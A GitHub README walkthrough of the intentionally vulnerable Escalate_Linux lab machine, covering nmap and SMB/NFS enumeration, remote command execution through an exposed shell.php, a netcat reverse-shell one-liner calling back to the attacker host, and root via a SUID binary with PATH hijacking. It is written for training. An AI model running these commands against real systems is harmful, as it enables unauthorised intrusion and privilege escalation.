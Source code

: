 # SEC-Walkthrough-EscalateLinux
# Escalate_Linux Walkthrough

![Linux](https://img.shields.io/badge/Linux-Escalation-red?logo=linux)
![Difficulty](https://img.shields.io/badge/Difficulty-Medium-yellow)
![License](https://img.shields.io/badge/Use-Educational-green)

> _This walkthrough documents the exploitation process of the Escalate_Linux vulnerable machine. It covers the full process from reconnaissance to privilege escalation using common tools found in Kali Linux._

---

## 🧠 Objective

The goal of this walkthrough is to simulate a full offensive security assessment against a deliberately vulnerable Linux machine (Escalate_Linux), practicing enumeration, exploitation, and privilege escalation techniques.

---

## ⚙️ Lab Setup

- **Attacker Machine**: Kali Linux (IP: 10.10.1.20)
- **Target Machine**: Escalate_Linux (IP: 10.10.1.21)
- **Network Type**: NAT (isolated)
- **Tools Used**: `nmap`, `enum4linux`, `showmount`, `rpcinfo`, `smbclient`, `curl`, `netcat`, `find`

---

## 🔎 Reconnaissance

Basic connectivity and service detection via Nmap:

```bash
nmap -sC -sV -T4 -Pn 10.10.1.21
```

Services discovered:

- Apache 2.4.29 on port 80
- SMB on ports 139 and 445
- RPC and NFS on ports 111 and 2049

---

## 📡 Scanning & Enumeration

### SMB Enumeration

```bash
enum4linux -a 10.10.1.21
smbclient -L //10.10.1.21/ -N
```

- Users: user1, user2, ..., user8
- Shares found: `liteshare` (requires auth), `IPC$` (anonymous)

### NFS Enumeration

```bash
showmount -e 10.10.1.21
rpcinfo -p 10.10.1.21
```

- `/home/user5` is exported to all clients (`*`), no auth required.

---

## 💥 Exploitation

### Remote Code Execution (Apache)

Discovered `shell.php` page:

```bash
curl http://10.10.1.21/shell.php?cmd=whoami
```

Successful reverse shell established:

```bash
mkfifo /tmp/f; nc 10.10.1.20 2600 < /tmp/f | /bin/bash > /tmp/f
```

Listener on attacker:

```bash
nc -lvnp 2600
```

### User Access Gained: `user6`

---

## 🔐 Privilege Escalation

### Step 1: SUID Binaries

```bash
find / -perm -4000 -type f 2>/dev/null
```

Identified `/home/user5/script` with SUID bit.

### Step 2: PATH Manipulation

Created fake `ls` script:

```bash
echo "/bin/bash" > /tmp/ls
chmod +x /tmp/ls
export PATH=/tmp:$PATH
```

Executing `/home/user5/script` now spawns a root shell.

### Root Access Gained ✅

---

## 📌 Lessons Learned

- Misconfigured NFS exports can be critical entry points.
- Web RCE vectors (e.g. `shell.php`) should never be exposed in production.
- SUID binaries that call commands via relative path can be exploited with `$PATH` hijacking.
- Always sanitize user inputs and isolate user permissions.

---

## 📁 References

- [CVE-2017-15715](https://nvd.nist.gov/vuln/detail/CVE-2017-15715)
- [CVE-1999-0629](https://nvd.nist.gov/vuln/detail/CVE-1999-0629)
- [CVE-1999-0519](https://nvd.nist.gov/vuln/detail/CVE-1999-0519)
- [RedTeamOperations Escalate_Linux](https://github.com/RedTeamOperations/Vulnerable_Machine)
- [MITRE ATT&CK Privilege Escalation](https://attack.mitre.org/tactics/TA0004/)

---

> 🛡️ This walkthrough was created for educational purposes only. Always conduct ethical hacking in controlled environments with permission.

